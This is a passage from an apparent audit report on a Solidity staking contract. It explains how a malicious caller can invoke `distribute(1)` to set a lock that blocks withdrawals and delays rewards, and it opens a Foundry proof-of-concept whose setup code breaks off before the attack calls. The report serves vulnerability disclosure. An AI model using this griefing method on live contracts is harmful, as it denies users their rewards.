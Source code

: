 >
> However, the problem here is the following check inside `withdrawFromManagedNFTs`:
>
> ```solidity
> require(!LockedForDistribution, "cannot withdraw during distribution");
> ```
>
> Even when there are 0 rewards in the current contract, a malicious user can still call `distribute(1)` to start the distribution process and to set the `LockedForDistribution` boolean to `true`.
>
> This results in no one being able to call `withdrawFromManagedNFTs` to get the rewards inside the `erc20` contract to distribute, which results in the next reward cycle being after `block.number + MinDistributionPeriod`.
>
> ### Proof of Concept
>
> There are roughly [7000 blocks per day](https://ycharts.com/indicators/ethereum_blocks_per_day), so we will use `(7000 * 30) = 210000 blocks` to mock a distribution period of roughly 1 month.
>
> We have written a Proof of Concept using Foundry, please follow the instructions provided and read the comments in the PoC for documentation.
>
> ```solidity
>// SPDX-License-Identifier: UNLICENSED
>pragma solidity 0.8.12;
>// git clone https://github.com/althea-net/liquid-infrastructure-contracts.git
>// cd liquid-infrastructure-contracts/
>// npm install
>// forge init --force
>// vim test/Test.t.sol 
>// save this test file
>// run using:
>// forge test --match-test "testGrieveCycles" -vvvv
>
>import {Test, console2} from "forge-std/Test.sol";
>import { LiquidInfrastructureERC20 } from "../contracts/LiquidInfrastructureERC20.sol";
>import { LiquidInfrastructureNFT } from "../contracts/LiquidInfrastructureNFT.sol";
>import { TestERC20A } from "../contracts/TestERC20A.sol";
>import { TestERC20B } from "../contracts/TestERC20B.sol";
>import { TestERC20C } from "../contracts/TestERC20C.sol";
>import { TestERC721A } from "../contracts/TestERC721A.sol";
>
>contract ERC20Test is Test {
>    LiquidInfrastructureERC20 liquidERC20;
>    TestERC20A erc20A;
>    TestERC20B erc20B;
>    TestERC20C erc20C;
>    LiquidInfrastructureNFT liquidNFT;
>    address owner = makeAddr("Owner");
>    address alice = makeAddr("Alice");
>    address bob = makeAddr("Bob");
>    address charlie = makeAddr("Charlie");
>    address delta = makeAddr("Delta");
>    address eve = makeAddr("Eve");
>    address malicious_user = makeAddr("malicious_user");
>    
>    function setUp() public {
>      vm.startPrank(owner);
>      // Create a rewardToken
>      address[] memory ERC20List = new address[](1);
>      erc20A = new TestERC20A();
>      ERC20List[0] = address(erc20A);
>
>      // Create managed NFT